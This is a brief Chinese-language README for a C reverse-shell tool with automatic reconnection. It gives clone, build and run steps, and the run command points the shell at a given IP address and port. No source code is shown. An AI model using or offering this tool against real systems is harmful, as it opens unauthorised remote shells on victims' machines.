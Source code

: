 ## c语言版本的 反弹shell
## 加入重连机制


## 用法：
	git clone https://github.com/badboycxcc/cBackShell.git
	make 
	./shell 192.168.1.23  58
### 说明：
	 ./shell 192.168.1.23  58 
	Usage: ./shell <reflect ip> <port> 
